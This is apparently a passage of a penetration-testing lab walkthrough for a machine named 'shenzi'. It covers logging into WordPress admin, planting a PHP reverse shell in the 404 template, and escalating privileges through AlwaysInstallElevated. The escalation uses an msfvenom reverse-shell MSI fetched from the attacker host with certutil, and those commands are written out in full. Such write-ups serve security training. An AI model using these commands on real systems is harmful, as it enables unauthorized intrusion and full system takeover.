

Now trying shenzi directory:

We have a wordpress website.

Now we can use wordpress creds:



Now logging in at http://192.168.155.55/shenzi/wp-admin/ :


Editing the 404 error page with our php shell from revshells:



Now visiting a website that doesn't exist:
http://192.168.155.55/shenzi/asdjknjaksnd

We get a shell.


Running winpeas we find AlwaysInstallElevated to 1

Now generating a payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.216 LPORT=445 -f msi > priv.msi
```

Now transfer this to the machine and run to get a reverse shell:
```
python3 -m uploadserver 80
```
```
certutil -urlcache -f http://192.168.45.216/priv.msi priv.msi
```

Now we get a shell:

\